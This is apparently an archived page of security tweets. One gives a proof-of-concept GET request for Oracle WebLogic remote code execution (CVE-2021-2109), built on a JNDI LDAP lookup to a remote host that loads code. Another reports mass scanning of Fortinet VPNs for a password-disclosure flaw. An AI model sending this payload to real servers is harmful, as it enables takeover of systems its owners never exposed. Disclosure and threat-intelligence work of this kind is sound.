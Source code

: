 # wugeej
**https://twitter.com/wugeej/status/1353565699864633344 _at 2021-01-25, 04:49:45_**
<blockquote>
#Oracle WebLogic Server RCE (CVE-2021-2109)

[PoC]
GET /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(-ldap://192.168.0;[Semicolon]👈10:1389/5r5mu7;AdminServer-)

https://t.co/S875IxhzFa https://t.co/h2REYhG9Yj
</blockquote>

* http://packetstormsecurity.com/files/161053/Oracle-WebLogic-Server-14.1.1.0-Remote-Code-Execution.html

<table><tr>
<td><img src="pictures/ebc4f69064ccf6c31b78e533a5904bfc37b5255384ee81534db0a28710c6d29e.jpg" alt="ebc4f69064ccf6c31b78e533a5904bfc37b5255384ee81534db0a28710c6d29e.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1353458688942432262 _at 2021-01-24, 21:44:32_**
<blockquote>
Mass scanning activity detected from 81.218.45.224 (🇮🇱) targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext. #threatintel https://t.co/9HCNq52ypj
</blockquote>
